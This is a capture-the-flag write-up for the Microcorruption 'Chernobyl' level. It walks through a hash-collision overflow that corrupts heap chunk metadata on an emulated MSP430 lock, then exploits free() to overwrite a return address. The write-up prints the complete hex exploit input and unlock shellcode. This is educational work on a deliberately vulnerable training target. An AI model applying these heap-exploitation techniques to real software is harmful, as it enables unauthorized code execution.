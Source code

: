 ```yaml
---
title: "Microcorruption CTF: Chernobyl"
categories: CTF
comments: true
---
```


This is my writeup for "Chernobyl", the second to last level on the [Microcorruption](https://microcorruption.com) CTF. Like usual, if you haven't already solved it or given it your very best shot, you should stop reading and go do that now.

## The input

This binary is pretty big compared to previous levels. There's a lot more functionality, and I spent a fair bit of time getting acquainted with the program.

I first stepped through some test inputs to see what was going on. The first character is tested against 0x61, or 'a', and then against 'n'. A bit more digging revealed the following information:

1. The first command "access" takes a username of any length and a pin of any length
2. The second command is "new" (or at the very least a 3 letter word starting with 'n'), and also takes a username and pin of any length
3. The pin, stored as one word (calculated in modular fashion from the input), may not have the high bit set
4. A command beginning with neither 'a' or 'n' terminates the program
5. Commands may be chained using a ';'
6. The input buffer (on the stack) does not overflow, and is wiped entirely after processing each set of entered commands
7. Users and their pins are stored in a hash table
8. Neither the user nor their pin overflows, despite taking arbitrarily large arguments (the username is simply truncated, and the pin is calculated within one register)

## The hash table

I'd never actually familiarized myself with hash table implementations, so I spent a bit of time doing that first. Turns out it's pretty simple. A hash table is initialized with a certain number of bins, in this case 8 (2^3, where the 3 is stored at 0x5008). Keys (in this case, the username string) are hashed. This value, modulo the number of bins, determines where the key and value will be stored.

The collision resolution is simple, the keys and values are stored sequentially, and a search will step through them using `strcmp` to find the key. When the number of entries stored in the hash table (at 0x5006) is greater than its capacity (initially 10, or 5 * 2^(3 - 2), where the 3 comes from 0x5008 and the 5 from 0x500a), the hash table is rehashed, and the number of bins is doubled (0x5008 is incremented).

Once you analyze the hash function (modular hashing, which is exactly what Java does), it's trivial to generate collisions. A bit of testing reveals that this is where the vulnerability is. It turns out that we can pack more key-value pairs in a bin than there was space allocated, before rehashing occurs. We can overwrite the chunk metadata used by `malloc` and `free`. We can also overwrite user data in the following bins.

## Almost a solution

Even though I knew the answer (a quick search revealed there was no code to open the lock), I decided to look at another possibility anyway. How are users activated? After using the `access` command on an existing user, the following instructions are hit:

```nasm
4c0c:  call     #0x49cc <get_from_table>
4c10:  cmp      #-0x1, r15
4c12:  jne      #0x4c1a <run+0xb4>
...
4c1a:  xor      r15, r10
4c1c:  and      #0x7fff, r10
4c20:  jnz      #0x4c32 <run+0xcc>
4c22:  cmp      r10, r15
4c24:  jge      #0x4c2c <run+0xc6>
4c26:  mov      #0x4aa3, r15
4c2a:  jmp      #0x4c9c <run+0x136>
```

The cmp instruction checks if the username was found. If it was, it XORs the returned pin with the entered pin (in r10), and &s with 0x7fff. If all but the most significant bit are equal, the jump at 4c20 will not happen. Then, if r15 is less than r10 (since r10 is zero, r15 must have the high bit set) we move 0x4aa3 into r15, and jump to a `puts` call. The string at address 0x4aa3 happens to be the "Access granted." string! So the high bit in the stored pin is the activated account flag. That is why a pin with the 16th bit set is not accepted.

So all we have to do is enter a bunch of username collisions, and have the last entry overwrite the pin of a user in the next bin to set the high bit. Easy! I did that, it printed the string "Access granted." and then... nothing. Bummer! I already knew it wouldn't, but I felt slightly cheated. After all, this exploit would work in an actual production lock!

## Exploiting the heap

This heap exploit works in a very similar fashion to a previous level, "Algiers". `malloc` and `free` appear to have the same implementation. A bit of stepping reveals that `free` is called during `rehash`. This is the call we can exploit.

The `free` function looks approximately like this. Note that the least significant bit of the `size` field is actually a flag that indicates whether the chunk is in use or not (this can be done safely since the chunks have to be aligned in memory).

```c
struct malloc_chunk {
    malloc_chunk *bk;
    malloc_chunk *fd;
    uint16_t size;
};

void free(void *ptr) {
    malloc_chunk *p = ptr - 6;
    p->size &= ~1;

    malloc_chunk *prev = p->bk;
    if (prev->size & 1 == 0) {
        prev->size += p->size + 6;
        prev->fd = p->fd;
        p->fd->bk = prev;
        p = prev;
    }

    malloc_chunk *next = p->fd;
    if (next->size & 1 == 0) {
        p->size += next->size + 6;
        p->fd = next->fd;
        next->fd->bk = p;
    }
}
```

All we have to do is make sure the previous chunk is available, and then using carefully selected values for the `bk` and `fd` fields, we can overwrite the return address and take control of the program. One way to do this is to set `bk` as the desired destination address, and `fd` as the location of the return address on the stack.

But wait! In the call to `rehash`, the new bins are allocated first. `malloc` does this by stepping through the linked list in the metadata of each chunk (more advanced versions of `malloc` only include this metadata in unused chunks). So if we overwrite one chunk's metadata, `malloc` will jump to our overwritten value and most likely crash. Only after the new bins have all been allocated is `free` called, sequentially for each old bin. There's an easy way around this: we can overwrite one chunk's metadata to have `fd` point two chunks ahead. In the skipped chunk, we can safely overwrite the metadata. Okay! Let's write our input.

## Calculating our input

Each bin has room for 5 entries. The 6th will overwrite the metadata. Unfortunately, the initial capacity is 11, so we won't be able to overwrite two. Luckily, the bin size remains the same after rehashing. So we'll allow the first rehash to execute as intended. The second rehash happens before the 22nd user is entered. We will need:

1. 6 users in one bin, with the last overwriting the next chunk's metadata to skip one chunk
2. 6 users in the following bin, with the last overwriting the next chunk's metadata with the return address location and new value
3. 10 other users distributed in other bins
4. A tablespoon of shellcode

The hash function is a modular hash function with 31 as the small prime. We already know that after one rehash, there will be 16 bins. So to generate collisions we can just use single bytes, incrementing by 16. To start off, let's place 5 dummy users in each of the first 3 bins (this will also allow the first rehash to happen as intended).

```
6e6e6e6e10203b6e6e6e6e30203b6e6e6e6e40203b6e6e6e6e50203b6e6e6e6e60203b
6e6e6e6e1f203b6e6e6e6e2f203b6e6e6e6e3f203b6e6e6e6e4f203b6e6e6e6e5f203b
6e6e6e6e1e203b6e6e6e6e2e203b6e6e6e6e3e203b6e6e6e6e4e203b6e6e6e6e5e203b
```

The 6e6e6e6e is simply "nnnn" to satisfy the program's requirements of the `new` command. "10203b" is the username, a space to trigger the username end, and a semi-colon to chain the next command. This user's pin will be calculated as 0, although it's not relevant for our exploit. The first five modulo 16 are all equal to 0, the next five 15, and the last 14. This places them in consecutive bins. Now let's overwrite the chunk metadata.

```
6e6e6e6e8853a85407203b
```

The sixth user in the bin is directly aligned with the following chunk's metadata, so we don't need any dummy bytes. The fourth chunk's address is 0x54a8, so we overwrite the second chunk's `fd` field to point here, skipping the third. We leave the `bk` field as it was. The 0x07 ensures that the hash modulo 16 is equal to 0, and that this user is placed in the desired first bin.

```
6e6e6e6e8e3ece3d0e203b
```

The third chunk's metadata is overwritten with the location of the return address on the stack, 0x3dce, and the desired value, 0x3e8e where we will place our shellcode. Again, the 0x0e places this user in the second bin.

All that's left is to add 5 more dummy users to trigger the second rehash and then tack on our shellcode at the end of our input, at address 0x3e8e. I put this at the end, in an unprocessed user since it contains null bytes and I didn't feel like designing shellcode without null bytes. Since the `free` call modifies more memory around our target (for example, modifying the `size` field), I used a jump to skip past the garbage bytes, to our familiar shellcode. It looks like this:

```nasm
jmp      $+0x8
...
mov      #0xff00, sr
call     #0x10
```

The final input looks like this:

```
6e6e6e6e10203b6e6e6e6e30203b6e6e6e6e40203b6e6e6e6e50203b6e6e6e6e60203b
6e6e6e6e1f203b6e6e6e6e2f203b6e6e6e6e3f203b6e6e6e6e4f203b6e6e6e6e5f203b
6e6e6e6e1e203b6e6e6e6e2e203b6e6e6e6e3e203b6e6e6e6e4e203b6e6e6e6e5e203b
6e6e6e6e8853a85407203b6e6e6e6e8e3ece3d0e203b6e6e6e6e1d203b6e6e6e6e2d20
3b6e6e6e6e3d203b6e6e6e6e4d203b6e6e6e6e5d203b033c000000000000324000ffb0
121000
```

## Final thoughts

I took the path of least resistance and simply hid the chunk I was manipulating from `malloc`, but it would have been possible to do this with a single chunk metadata overwrite. In this case, we just have to make sure that the `fd` pointer in the overwritten chunk points to either the end of the heap or a dummy chunk that we create, at an address higher than the current chunk. Else we run the risk that `malloc` thinks the heap has been exhausted. In this case, we could exploit the first rehash and our input would be a lot shorter.

A working exploit is a working exploit though, so I didn't bother going the extra mile. Especially since I doubt I'll see this implementation of the heap again!
